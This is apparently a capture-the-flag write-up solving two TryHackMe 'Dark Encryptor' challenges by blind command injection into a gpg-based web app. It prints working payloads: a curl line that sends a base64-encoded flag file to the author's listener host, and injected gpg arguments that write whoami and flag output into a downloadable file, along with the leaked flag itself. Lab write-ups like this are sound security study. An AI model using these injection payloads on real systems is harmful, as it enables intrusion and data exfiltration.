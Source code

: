 ```yaml
---
date: March 19, 2025
description: Blind Command injection in gpg
platform: TryHackMe
categories: Web
tags:
---
```

#command-injection/linux #blind #pgp #linux

# Dark Encryptor 1 
Void managed to hack into DarkMatter's internal network. I don't think they use it much, but we found this encryption tool hosted on a server. Let's see if we can find anything interesting lying around. Start the machine below and access the web app at http://10.10.6.24:5000.


request to create encrypted messege
```http
POST / HTTP/1.1
Host: 10.10.6.24:5000
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

text_input=test&recipient=NullPhantom
```

## Solution 

> blind os command injection

the webapp is 'probably' using `gpg` to encrypt our message tried generic blind remote call using curl and worked
```bash
curl -X POST http://10.10.6.24:5000/ -d 'text_input=test;curl+http://10.x.x.x:4444/`base64+flag.txt`&recipient=NullPhantom
```

![](_attachments/Pasted%20image%2020250318045607.png)



# Dark Encryptor 2 
After pivoting through their internal network, we have found yet another encryption tool. Can you hack into the server and extract the secret data? Our intel tells us that the app is using the gpg tool.

Start the machine below and access the web app at http://10.10.126.222:5000/.

> request is a multiform part data of filename and recipient is accepted
> response saving the output as a random filename uploaded in `/upload`
## Solution 
> blind os command injection

The web application was running gpg tool playing around with it locally looks like it is running this ocmmand

```bash
gpg --armor --encrypt --recipient "ByteReaper" message.txt # then saves it to a random file
```


Tried injecting the message and input but wouldnt work, so tried injecting the recipient. tried `;curl` technique like in part 1 but nothing comes to my reciever. Tried just gpg injecting parameters to exfiltrate data and it worked!  

```bash
gpg --armor --encrypt --recipient "ByteReaper" --armor --comment `whoami` -o uploads/whoami.gpg message.txt;
```

This results to running the whoami command and passess in the comment of the encrypted gpg file. similar to image comments command injection.

`--armor` - create ascii output 
`--comment` adds comment top of encrypted gpg 
`-o` saves output to file

ByteReaper --armor --comment `cat flag.txt|base64` -o uploads/flag.gpg

![](_attachments/Pasted%20image%2020250323055048.png)

![](_attachments/Pasted%20image%2020250323055057.png)


Visit the file `/uploads/flag.gpg`

```
-----BEGIN PGP MESSAGE-----
Comment: VEhNe2dvaW5nX2luX2JsMW5kXzIzOTR9Cg==

hQEMA1JxpTs2EtRdAQf/Y39O5JeMVfYqD+fi6d/MJOXz8oY/W8Ft2y2D9t+Sa2Jv
fFyEzriUeCUXEVkrSePsr03UXeKLW2igzSUFWTs18HWY0z79u6mnyAjKBk2DEWVA
MTtUYOTARwu5p8SgXEcULvI12lF/87i09m/877A4QjkRtfNDrJ73RLGB1TC52kBi
lj7Hct2d6tq1UXhf2vsbUWFwUKQHn7gtnmnV38rbbGAz5wEOq08vT23CZptrTriD
Y+etv4B9KOUPNkorU8r86b5acYRSpEbZvURiCTFBKWte0B7HrDDZDVGUOMXDkge/
wm7C27nnO7DHxh88DvRlB0sSgCgLlCLvUlC9Fa1XLNRYAQkCEMIHe8iQVt+zqs7W
yhOJrQayZ//+YRWTutrIep+gxaB22PXzVV5DycsxiHlKVYe0QRE7qknNzSnEKGIi
oWlUxkviRndptQbOCr7yiaoPJIyrbpLVmA==
=OQIT
-----END PGP MESSAGE-----

```